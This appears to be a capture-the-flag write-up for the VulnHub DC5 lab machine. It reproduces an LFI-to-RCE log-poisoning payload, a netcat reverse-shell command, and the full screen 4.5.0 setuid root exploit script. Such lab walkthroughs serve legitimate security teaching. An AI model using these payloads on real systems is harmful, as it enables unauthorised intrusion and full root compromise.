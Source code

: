 ```yaml
---
layout: post
title: Vulhub - DC5 writeup
date: 2019-07-09 11:13
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dc-6,315/">DC5</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7/">DCAU</a></h4>

***

## Nmap

![](images/dc5/nmap.png)

A website is running on port 80 and rpcbind is running on port 111.

Let's start with the website.

***

## HTTP

![](images/dc5/website.png)

There was nothing unusual on the website. Nothing in the comments.

Let's run `gobuster` to see if we find anything:

![](images/dc5/gobuster.png)

Well gobuster also didn't find anything interesting.

Now the only thing I can think of is `form on Contact us` page. We can try to submit it and see if we find anything in it.

I submitted the random data and was redirected to a new page called `thankyou.php` with multiple query in the URL.

![](images/dc5/URL.png)

We know these kind of parameters are always(not always ;) prone to LFI/RFI.


I tried to include files with those parameters but none of them were prone to file inclusion but I got something when I used a different parameter named `file`(__pure guessing!!__)

![](images/dc5/lfi.png)

We can read the `/etc/passwd` file easily. We have the LFI means we can easily exploit this using log poisoning.

 Basically we can send a requests with the following parameter:

```php
?file=<?php system($_GET["cmd"]) ?>
```
And then using the `/var/log/nginx/error.log` file we can run commands like

```
?file=/var/log/nginx/error.log&cmd=ls
```

![](images/dc5/cmd.png)

***

If you want to understand how log poisoning works then you can just google something like `LFI to RCE using log poisoning` or you can read:

* [local-file-inclusion-code-execution](https://resources.infosecinstitute.com/local-file-inclusion-code-execution/)
* [from-local-file-inclusion-to-remote-code-execution-part-1](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

***

Since we have RCE we can just get the reverse shell on the machine.

In the `cmd` parameter you can send the following data
```
&cmd=nc -e /bin/sh IP-of-you-machine PORT
```

![](images/dc5/reverse.png)

And we'll have a shell on our listener. Spawn the TTY shell and get to work :)

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

![](images/dc5/listener.png)

***

I was in the machine and following the ritual I just downloaded the enumeration script from my system and ran it.

__Note__: Download the script in `/tmp` folder since we are not even a user(dc).

I got some suspicious looking SUIDs

![](images/dc5/suid.png)

I googled them one by one and got a hit on `screen-4.5.0`. There was an [exploit](https://www.exploit-db.com/exploits/41154) for `screen 4.5.0`.

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

Running that exploit as is gave an error:

![](images/dc5/error.png)

So I manually separated the code into 3 different files.

* `libhax.c`

   ![](images/dc5/libhax.png)

compile using:

```bash
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

* `rootshell.c`

   ![](images/dc5/rootshell.png)

compile using:
```bash
gcc -o rootshell rootshell.c
```

* `exp.sh`

   ![](images/dc5/exp.png)

__Note__: Exploit still do the same thing but now instead of making files using echo and EOF it will just used the existing files that I made.

Now we can just wget all those file from our system to machine and run the exploit.

![](images/dc5/wget.png)

I tried to run the `exp.sh` file but for some reason I was getting some error.

![](images/dc5/error-2.png)

So I did everything that was done in exploit manually.

![](images/dc5/root.png)

And then got the flag

![](images/dc5/flag.png)


***
__Start time__: `Tue Jul  9 11:23:00 IST 2019`

__Completion time__: `Tue Jul  9 13:13:01 IST 2019`

***

I wasted quite sometime in figuring out how to run that exploit but all in all it was a good box.

***

Great machine by [DCAU](https://twitter.com/DCAU7), as always :)
